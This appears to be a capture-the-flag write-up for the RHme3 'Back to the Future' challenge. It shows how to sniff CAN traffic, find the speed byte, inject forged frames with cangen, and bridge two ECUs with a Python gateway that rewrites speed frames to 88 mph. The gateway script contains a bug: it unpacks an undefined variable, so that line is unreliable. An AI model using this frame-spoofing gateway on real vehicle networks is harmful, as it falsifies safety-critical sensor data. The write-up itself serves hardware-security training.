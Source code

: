 # [Back to the Future](https://rhme.riscure.com/3/challenge?id=14)

Controller Area Network - 250pts

## Challenge text

Our intelligence suggests that the DeLorean we previously recovered is capable of time travel.
According to the documents in our possession the time travel functionality is activated as soon as a specific ECU within the vehicle maintains a velocity of exactly 88 miles per hour for at least a few seconds. We rely on your CAN bus expertise to trick the time-travel ECU into thinking it is travelling at the right speed; again, the vehicle dashboard we restored should be of use.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge involves identifying and rewriting CAN packets that indicate speed.  A CAN bridge will be needed to ensure that all packets are intercepted and rewritten.

### Preparation

If you haven't done so already, prepare your boards for working with CAN using these guides:
* [RHme3 board analysis and preparation](Preparation/RHme3_board_analysis.md)
* [Beaglebone Black CAN setup](../Preparation/BBB_CAN_setup.md)

Make the following connections:
* For now, connect the two ECUs on the RHme3 board using jumpers.  We'll remove these later to separate the two channels.
* Connect one of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that the second data byte of CAN ID 23 seems to follow the movement of the dashboard speedometer.  In this case, 0x24 is 36 mph.

	$cansniffer -c can0
	23  00 24 08 02 20

Let's attempt to rewrite this as 88 mph (0x58) and feed it back using cangen:

	$ cangen -I 23 -L 5 -D 0058080220 -g 10 -x can0

This brings the speed up to 88 mph on the dashboard, but packets indicating lower speeds keep bringing it back down into the 30s of mph.  This confirms that we're using the right CAN ID and byte, but we need to do something about the lower speed packets that keep the indicated speed from being consistent.

Hypothesis: The two ECUs on the RHme3 board are acting as independant devices that are communicating with each other.  Maybe we can wedge a gateway between them, and use the gateway to intercept and rewrite any packets with CAN ID 23.

Make the following connections:
* Disconnect the two ECUs on the RHme3 board by removing the jumpers.
* Connect both of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.  The connections should create two independant CAN buses: can0 on the Beaglebone Black connected to channel 1 on the RHme3 board, and can1 connected to channel 2.

![Double CAN Hookup](../Images/can_hookup_double.jpg)

With the two channels separated from each other, traffic goes quiet.  With the use of candump, temporarily jumpering the two channels to create bursts of traffic, and monitoring each channel individually, the originating channel of CAN ID 23 can be determined as channel 1.

	$ candump -L can0
	$ candump -L can1

### Attack

The following Python3 script can be run on the BBB to pass all traffic from channel 1 to channel 2, and rewrite all packets with CAN ID 23 for 88 mph.

	#!/usr/bin/python3

	import socket
	import struct
	import sys

	s_in = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_out = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_in.bind((sys.argv[1],))
	s_out.bind((sys.argv[2],))

	while True:
		# Get a packet
		frame,addr = s_in.recvfrom(16)
		id,dlc,data = struct.unpack("=IB3x8s",cf)
		data = bytearray(data[:dlc])

		# If the packet is ID 0x23, rewrite the speed byte
		if (id == 0x23):
			data[1] = 0x58
			frame = struct.pack("=IB3x8s",0x23,dlc,data)

		# Send it to the other ECU channel
		try:
			s_out.send(frame)
		except socket.error:
			print('Error sending CAN frame')

Run the script as follows:

	$ python3 can-gate.py can0 can1

This pegs the dashboard at 88 mph and displays the flag.

![Back to the Future Dashboard with FLAG](../Images/future_dashboard.png)
